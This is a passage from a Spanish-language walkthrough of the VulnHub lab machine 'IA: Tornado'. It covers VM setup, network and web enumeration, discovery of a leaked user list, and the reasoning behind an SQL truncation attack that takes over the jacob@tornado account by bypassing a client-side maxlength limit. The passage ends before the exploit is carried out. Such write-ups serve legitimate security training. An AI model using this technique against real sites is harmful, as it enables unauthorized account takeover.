# IA: Tornado — VulnHub

**Dificultad:** Media | **SO:** Linux (Debian) | **Fecha:** Octubre 2026 | **Autor:** krinoxx | **Plataforma:** [IA: Tornado (VulnHub)](https://www.vulnhub.com/entry/ia-tornado,639/)

## Índice
- [Reconocimiento](#reconocimiento)
- [Enumeración web](#enumeración-web)
- [Acceso inicial](#acceso-inicial)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Lecciones aprendidas](#lecciones-aprendidas)
  - [Desde el punto de vista del atacante](#desde-el-punto-de-vista-del-atacante)
  - [Desde el punto de vista del defensor](#desde-el-punto-de-vista-del-defensor)

---

## Reconocimiento

La máquina se descarga desde la ficha oficial de VulnHub en formato `.ova`.

#### 01. Página de descarga de la máquina en VulnHub



El fichero `.ova` incluye un disco en formato `.vmdk` antiguo que VMware Workstation no monta directamente, así que fue necesario convertirlo con `vmware-vdiskmanager` antes de poder usarlo.

#### 02. Conversión del disco con vmware-vdiskmanager



Con el disco ya convertido, se crea una nueva máquina virtual en VMware Workstation (Ubuntu como sistema operativo base, red en modo *Bridged* para que la VM obtenga IP en la misma LAN que el host).

#### 03. Asistente de creación de la máquina virtual



Se sustituye el disco por defecto por el `.vmdk` ya convertido.

#### 04. Configuración del disco de la VM



Al arrancar la máquina se ve el proceso de boot normal de Linux (comprobación de filesystem, carga de drivers USB, etc.) hasta llegar a una shell local como root.

#### 05. Arranque de la máquina Tornado



Desde la consola local se revisa la configuración de red (`/etc/network/interfaces`) para confirmar que la interfaz está en modo DHCP y así obtener IP en el mismo segmento que la máquina atacante.

#### 06. Revisión de /etc/network/interfaces



Con la VM ya arrancada y en red, se lanza un `arp-scan` sobre la interfaz local para identificar la IP asignada al objetivo dentro del rango `192.168.1.0/24`.

#### 07. arp-scan sobre la red local



Se identifica el host `192.168.1.61` (vendor VMware, Inc.) como la máquina objetivo.

## Enumeración web

Se lanza `gobuster` contra la raíz del servidor web para descubrir rutas ocultas.

#### 08. gobuster contra la raíz del servidor web



Se descubren los directorios `manual/`, `javascript/`, `bluesky/` y `server-status` (403). `bluesky/` resulta ser una aplicación web completa (una landing page de una empresa de mantenimiento).

#### 09. Página principal de BlueSky



Se repite `gobuster` esta vez apuntando a `/bluesky` y añadiendo la extensión `.php`, lo que revela varios endpoints de autenticación y gestión: `login.php`, `signup.php`, `dashboard.php`, `about.php`, `contact.php`, `logout.php`, `port.php`, además de los directorios `css/`, `imgs/` y `js/`.

#### 10. gobuster sobre /bluesky con extensión php



Se accede a `login.php`, un formulario simple con campos de email y contraseña.

#### 11. Formulario de login



## Acceso inicial

Se prueba un login con credenciales de prueba (`test@test.com`), que resulta en un error genérico.

#### 12. Intento de login fallido



Inspeccionando el formulario con las DevTools del navegador se observa que el campo de email tiene un atributo `maxlength="13"`, una restricción puramente del lado cliente que, sin embargo, da una pista sobre el ancho de la columna correspondiente en la base de datos del backend.

#### 13. DevTools mostrando maxlength=13 en el campo email



Al no existir el usuario de prueba, se utiliza `signup.php` para registrarlo.

#### 14. Formulario de registro con test@test.com



#### 15. Registro exitoso



Repitiendo el registro con el mismo correo, la aplicación responde correctamente indicando que el usuario ya existe, lo que confirma que hay una comprobación de unicidad por email.

#### 16. Aviso de usuario ya registrado



Con la cuenta ya creada, se inicia sesión correctamente.

#### 17. Login relleno con test@test.com



#### 18. Acceso al dashboard como test@test.com



Revisando el código fuente de una de las páginas del dashboard (`port.php`) aparece un comentario HTML revelador: una referencia directa a la ruta `/home/tornado/imp.txt`, junto a un mensaje indicando que una vulnerabilidad LFI ya ha sido parcheada en esa página.

#### 19. view-source de port.php con el comentario /home/tornado/imp.txt



Siguiendo esa pista, se accede al directorio de usuario Apache `/~tornado/`, donde efectivamente existe un listado de directorio expuesto con el fichero `imp.txt`.

#### 20. Index de /~tornado mostrando imp.txt



El contenido de `imp.txt` es una lista de direcciones de correo/usuarios del dominio interno `@tornado`: `ceo`, `cto`, `manager`, `hr`, `lfi`, `admin`, `jacob`, `it` y `sales`.

#### 21. Contenido de imp.txt con la lista de usuarios



Con esta lista de usuarios válidos se intenta registrar `jacob@tornado` desde `signup.php`, pero la aplicación lo rechaza por estar ya registrado — confirmando que es una cuenta real y preexistente en la base de datos.

#### 22. Intento de registro de jacob@tornado — usuario ya registrado



`jacob@tornado` tiene exactamente 13 caracteres, el mismo valor que el `maxlength` observado anteriormente en el formulario. Esto apunta a un ataque de **truncado SQL (SQL Truncation)**: si la columna del email en la base de datos tiene un ancho fijo de 13 caracteres y el servidor no valida la longitud en el backend (ni usa modo estricto de MySQL), es posible registrar una variante del email real con caracteres añadidos al final que exceda ese límite. La comprobación de unicidad se hace sobre la cadena completa (sin truncar) — por lo que no coincide con el registro existente y pasa el filtro — pero al insertarse en la base de datos, la cadena se trunca silenciosamente a los primeros 13 caracteres, coincidiendo con el email real y permitiendo tomar el control de esa cuenta con una contraseña elegida por el atacante.

Para poder escribir más de 13 caracteres en el campo, se edita el atributo `maxlength` desde las DevTools, ampliándolo a 35.

#### 23. DevTools: maxlength ampliado de 13 a 35

